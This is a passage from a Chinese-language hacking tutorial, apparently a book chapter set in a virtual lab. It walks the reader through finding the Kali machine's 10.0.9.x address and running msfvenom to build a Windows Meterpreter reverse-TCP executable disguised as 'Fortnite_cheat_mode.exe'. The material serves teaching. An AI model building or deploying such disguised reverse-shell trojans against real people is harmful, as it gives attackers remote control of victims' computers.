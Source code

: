     ![f06001](img/f06001.png)

    图 6-1：Metasploit 框架控制台的启动信息，左下角是 Metasploit `msf` `6` `>`命令提示符

1.  查找`eth0:`部分下以`inet`开头的行，后面跟着一个 IP 地址：

    ```
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000 link/ether 08:00:27:23:ff:90 brd ff:ff:ff:ff:ff:ff **inet 10.0.9.***x***/24 brd 10.0.9.255 scope global noprefixroute eth0**1
    ```

    只要地址以`10.0.9`开头，你就连接到了你在第三章中创建的 PublicNAT 网络，并且准备就绪。请注意 IP 地址；你将在多个命令中使用它。如果你没有看到`10.0.9.x`作为你的 IP 地址，请回到第三章第 26 页重新创建 PublicNAT 网络，或者第 27 页正确地将 Kali 虚拟机连接到该网络。

1.  输入以下两行命令，将 IP 地址中的`x`替换为你刚刚查到的数字：

    ```
    msf6 > `msfvenom  -p  windows/meterpreter/reverse_tcp  \` > `LHOST=10.0.9.``x` `-f  exe  -o  ~/Desktop/Fortnite_cheat_mode.exe`
    ```

1.  现在你应该在桌面上看到一个名为*Fortnite_cheat_mode.exe*的文件，如图 6-2 所示。如果你没有看到这个文件，打开文件资源管理器，前往*/home/kali/Desktop/*来查找它。
